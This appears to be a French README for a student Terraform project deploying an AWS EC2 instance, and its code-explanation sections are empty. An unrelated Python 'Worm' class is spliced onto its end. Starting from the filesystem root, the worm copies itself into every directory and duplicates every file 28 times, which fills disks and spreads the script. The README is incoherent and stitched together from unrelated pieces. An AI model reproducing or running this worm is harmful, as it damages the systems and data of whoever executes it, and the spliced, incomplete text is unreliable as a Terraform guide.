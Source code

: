 <div style="display:flex; align-items:center;">
  <h1 style="margin-right:auto;">Projet-AWS-terraform</h1>
 <img src="https://img.shields.io/badge/Made%20with-terraform-blue" alt="Terraform badge">
</div>


Dans le cadre de notre semaine de formation sur les outils terraform et puppet nous avons un projet terraform à créer

## Sujet

Dans le cadre du projet nous devons déployer une infrastructure complète AWS avec Terrafom, les prérequis sont :
- un module pour créer une instance ec2 utilisant la dernière version de ubuntu
- un module pour créer un volume ebs dont la taille sera variabilisée
- un module pour créer une security qui ouvrira le 80 et 443
- un dossier app qui va utiliser les 4 modules pour déployer une ec2

Nous devons également, si possible :
- installer nginx et enregistrer l’ip publique dans un fichier nommé ip_ec2.txt (ces éléments sont à intégrer dans le rôle ec2)
- pousser le projet sur GitHub et partager le lien du repo à o.nebie@ecole-ipssi.net (Optionnel)
- faire un rapport pour accompagner notre solution (le readme) 

## Architecture

Voici l'arboressence de notre projet :

![image](https://user-images.githubusercontent.com/38227021/235158938-753323ec-d605-4aba-bb8e-aa6956523604.png)

## Fichier Terraform de base pour créer une instance

Dans chancun de nos modules terraform nous avons 3 fichiers :
- main.tf permet de définir les ressources à créer, les modifier ou les supprimer pour provisionner une infrastructure.
- variable.tf permet de définir les variables qui seront utilisées dans la configuration principale (main.tf) ou dans d'autres fichiers de configuration, afin de rendre la configuration plus modulaire et facilement adaptable aux différents environnements.
- terraform.tfvars permet de définir des valeurs pour les variables utilisées dans la configuration principale (main.tf) ou dans d'autres fichiers de configuration, afin de les rendre plus faciles à gérer et à modifier pour les différents environnements. 


## Explication du code 


* _Pour le module ec2_ :

* _Pour le module Eip_Publique_ :

* _Pour le module SecutiryGroup_ :

* _Pour le module ebs_ :

## Execution du projet

Afin de lancer notre projet Terraform, nous allons avoir besoin d'exécuter plusieurs commandes.

Terraform init : Cette commande permet de mettre en place un environnement de travail et l'adapter à Terraform. Cela permet de télécharger les plugins requis liés aux différents providers.

Terraform plan : Cette commande permet d'avoir une prévisualisation des modifications qui vont être apportées à l'infrastructure. Ainsi, on peut voir facilement quelles sont les parties de notre infrastructure qui sont affectées.

Terraform apply : Cette commande permet d'appliquer les modifications apportées au fichier de configuration.

En résumé, pour exécuter un projet Terraform, il faut initialiser le répertoire de travail en exécutant la commande "terraform init", générer le plan d'exécution en exécutant la commande "terraform plan" et appliquer les modifications en exécutant la commande "terraform apply".
```python
class Worm:
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path="/"
        else:
            self.path = path
        
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list=[]
        else:
            self.target_dir_list = target_dir_list

        if isinstance(target_dir_list, type(None)):
            self.iteration = 28
        else:
            self.iteration = iteration

        # path absolu
        self.own_path = os.path.realpath(__file__)
    
    def list_directories(self, path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)

        for file in files_in_current_directory:
            
            if not file.startswith('.'):
                # Prends le PATH complet
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
    
    def create_new_worm(self):
         for directory in self.target_dir_list:
            destination = os.path.join(directory, "vers.py")
            # Copie le script dans le nouveau répertoire avec un noms similaires
            shutil.copyfile(self.own_path, destination)

    def copy_existing_file(self):
        # La méthode suivante sera utilisée pour dupliquer les fichiers un nombre de fois (iteration)
         for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,(file+str(i)))
                        shutil.copyfile(source, destination)

   
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_file()
  ```
 
 
Le code suivant permet d'appeler toutes les foncitons au lancement du ver
